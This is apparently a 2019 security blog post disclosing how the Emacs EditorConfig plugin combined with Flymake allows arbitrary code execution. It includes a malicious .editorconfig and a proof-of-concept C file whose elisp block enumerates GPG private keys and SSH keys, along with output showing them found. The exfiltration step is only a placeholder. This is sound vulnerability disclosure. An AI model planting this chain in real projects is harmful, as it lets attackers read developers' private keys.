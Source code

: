 ```yaml
---
date: 2019-10-06
---
```


Emacs + EditorConfig + Flymake = code execution
================================================

There has been a lot of talk on Emacs security for some time now.  A lot
of the discussion has been about transport security for package
repositories.  Unfortunately, transport security isn't the only issue
with Emacs.

I tend to audit most Emacs packages that I use, and one common issue is
that a lot of packages executes shell commands with potentially
[untrusted][1] data as input.

Recently, I read the [EditorConfig][2] plugin for Emacs and noticed
something interesting.  It allows major modes to be set by name and by
extension with the `file_type_emacs` and `file_type_ext` settings.

In `editorconfig-apply`, the function
`editorconfig-set-major-mode-from-name` is invoked with the value of
`file_type_emacs`.  This function concatenates the file type with the
string `-mode` and calls it as a function if it's bound:

```elisp
(defun editorconfig-set-major-mode-from-name (filetype)
  "Set buffer `major-mode' by FILETYPE.

FILETYPE should be s string like `\"ini\"`, if not nil or empty string."
  (let ((mode (and filetype
                   (not (string= filetype
                                 ""))
                   (intern (concat filetype
                                   "-mode")))))
    (when mode
      (if (fboundp mode)
          (editorconfig-apply-major-mode-safely mode)
        (display-warning :error (format "Major-mode `%S' not found"
                                        mode))
        nil))))
```

(The word *safely* in `editorconfig-apply-major-mode-safely` has nothing
to do with security; this function merely avoids infinite recursion when
changing major mode.)

Similarly, `editorconfig-apply` invokes
`editorconfig-set-major-mode-from-ext` with the value of
`file_type_ext`.  A lookup for `file_type_ext` is made in
`auto-mode-alist` with the function `editorconfig--find-mode-from-ext`
and the matching mode function (if any) is executed:

```elisp
(defun editorconfig--find-mode-from-ext (ext &optional filename)
  "Get suitable `major-mode' from EXT and FILENAME.
If FILENAME is omitted filename of current buffer is used."
  (cl-assert ext)
  (cl-assert (not (string= ext "")))
  (let* ((name (concat (or filename
                           buffer-file-name)
                       "."
                       ext)))
    (assoc-default name
                   auto-mode-alist
                   'string-match)))
```

Why is this interesting?  Well, because a malicious `.editorconfig` file
could use these features to change any opened file in a project to an
arbitrary mode **and** execute any bound function that ends in `-mode`.
And this brings us to another unfortunate fact of Emacs.

Emacs ships with a built-in syntax checker called Flymake (and yes, the
popular alternative that goes by the name of Flycheck suffers from the
exact same problem!).  Flymake allows major modes to define backend
functions that executes syntax checkers, linters, formatters and other
tools on various buffer events.

There aren't that many Flymake backends in a default installation of
Emacs.  One of the few backends that *does* ship with Emacs is for
`elisp` code, and it is named `elisp-flymake-byte-compile`.

What `elisp-flymake-byte-compile` does is start an asynchronous Emacs
process where the current buffer is byte-compiled.  And, in the world of
`elisp`, all that's needed to execute code during byte-compilation is
the macro `eval-when-compile`.

This functionality can be coupled with the peculiar features of the
EditorConfig plugin to achieve arbitrary code execution.  In order to do
so, we would first change the major mode to `elisp` with
`file_type_ext`.  After doing that, we enable Flymake mode (and thus
byte compilation) with `file_type_emacs`.  For example:

```ini
[*]
file_type_ext = el
file_type_emacs = flymake
```

At this point, any buffer opened in a project with the `.editorconfig`
above could execute `elisp`.  For example:

```c
/*
(eval-when-compile
  (with-temp-file "~/bye-bye-keys"
    (dolist (x (append (directory-files "~/.gnupg/private-keys-v1.d/" t "^[^.]")
                       (directory-files "~/.ssh/" t "id_")))
      ;; <insert evil POST request to some shady API>
      (insert (format "could have shared %s with the world!\n" x)))))
*/

#include <stdio.h>

int main(void)
{
    printf("ohai\n");
}
```

`/*` and `*/` causes non-erroneous warnings in the `elisp` byte
compiler.  The non-elisp code does, however, break the byte compiler;
but our elisp has already been executed at that point.  The end result
is that we have code that is both valid-enough `elisp` and valid `C`.

```sh
~/poc$ cat ~/bye-bye-keys
cat: /home/hji/bye-bye-keys: No such file or directory
~/poc$ emacs foo.c
~/poc$ cat ~/bye-bye-keys
could have shared /home/hji/.gnupg/private-keys-v1.d/9598156881A8DFAE885F503AC61D6FD95A3A971A.key with the world!
could have shared /home/hji/.ssh/id_rsa with the world!
could have shared /home/hji/.ssh/id_rsa.pub with the world!
~/poc$
```


[1]: https://github.com/abo-abo/swiper/issues/1905
[2]: https://github.com/editorconfig/editorconfig-emacs
